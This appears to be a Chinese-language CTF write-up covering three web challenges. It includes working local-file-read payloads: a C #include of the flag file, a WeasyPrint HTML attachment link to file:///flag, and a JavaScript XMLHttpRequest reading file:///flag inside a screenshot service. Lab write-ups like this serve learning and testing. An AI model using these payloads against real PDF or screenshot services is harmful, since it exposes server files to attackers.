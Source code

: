 ## Caas
一句话测试
![](attachments/Pasted%20image%2020240331085938.png)

看报错是c语言试试include引入敏感文件

![](attachments/Pasted%20image%2020240331090322.png)

直接包含flag

![](attachments/Pasted%20image%2020240331090353.png)


## URL TO PDF
#WeasyPrint
监听端口，拿UA判断为WeasyPrint

![](attachments/Pasted%20image%2020240403124647.png)

```html
<!DOCTYPE html>  
<html lang="en">  
<head>  
    <meta charset="UTF-8">  
</head>  
<body>  
<link rel="attachment" href="file:///flag">  
</body>  
</html>
```

对拿到的文件binwalk -e 就可以

![](attachments/Pasted%20image%2020240403125409.png)

## ScreenShooter

![](attachments/Pasted%20image%2020240403132344.png)

```HTML
<!DOCTYPE html>
<html>
<head>
<title>wum0nster</title>
</head>
<body>
<script>
flag=new XMLHttpRequest;
flag.onload=function(){
    document.write(this.responseText)
};
flag.open("GET","file:///flag");
flag.send();
</script>
</body>
</html>
```